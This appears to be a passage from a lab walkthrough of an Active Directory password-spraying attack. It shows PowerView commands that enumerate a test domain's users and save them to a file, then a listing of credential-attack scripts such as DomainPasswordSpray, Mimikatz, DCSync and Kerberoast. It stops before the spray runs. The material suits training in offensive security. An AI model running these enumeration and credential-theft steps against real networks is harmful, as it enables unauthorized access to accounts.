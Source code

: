 `Import-Module .\PowerView.ps1`

 1. **Identify all the users in the domain.**
 
`Get-Domain`:
```
Forest                  : SECURITY.local
DomainControllers       : {prod.research.SECURITY.local}
Children                : {}
DomainMode              : Windows2012R2Domain
DomainModeLevel         : 6
Parent                  : SECURITY.local
PdcRoleOwner            : prod.research.SECURITY.local
RidRoleOwner            : prod.research.SECURITY.local
InfrastructureRoleOwner : prod.research.SECURITY.local
Name                    : research.SECURITY.local ←
```

`Get-DomainUser | Select-Object -ExpandProperty cn`:
```
Administrator ←
Guest
krbtgt
groupmanager
student ←
```

`Get-DomainUser | Select-Object -ExpandProperty cn | Out-File "$HOME\Desktop\domain_users.txt"`

In the command above, `Get-DomainUser` fetches a list of all users within the domain. `Select-Object -ExpandProperty cn` is used to expand the `cn` (common name) property of each user object, which generally represents the username.

2. **Initiate the Password Spraying Attack.**

`cd C:\Tools\Scripts\credentials`, `ls`:
```
    Directory: C:\Tools\Scripts\credentials

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/22/2021  12:13 PM          18289 DomainPasswordSpray.ps1 ←
-a----        9/22/2021  12:13 PM          14608 dumpCredStore.ps1
-a----        9/22/2021  12:13 PM           6993 Get-LAPSPasswords.ps1
-a----        9/22/2021  12:13 PM          20431 Get-VaultCredential.ps1
-a----        9/22/2021  12:13 PM         454047 Invoke-CredentialInjection.ps1
-a----        9/22/2021  12:13 PM        1192836 Invoke-DCSync.ps1
-a----        9/22/2021  12:13 PM          34954 Invoke-InternalMonologue.ps1
-a----        9/22/2021  12:13 PM          46818 Invoke-Kerberoast.ps1
-a----        9/22/2021  12:13 PM        3190829 Invoke-Mimikatz.ps1
-a----        9/22/2021  12:13 PM          16980 Invoke-NTLMExtract.ps1
-a----        9/22/2021  12:13 PM          26491 Invoke-PowerDump.ps1
-a----        9/22/2021  12:13 PM        1057331 Invoke-Rubeus.ps1
-a----        9/22/2021  12:13 PM          39496 Invoke-SessionGopher.ps1
-a----        9/22/2021  12:13 PM          26071 Invoke-SharpSecDump.ps1
-a----        9/22/2021  12:13 PM          93837 Invoke-TokenManipulation.ps1
```
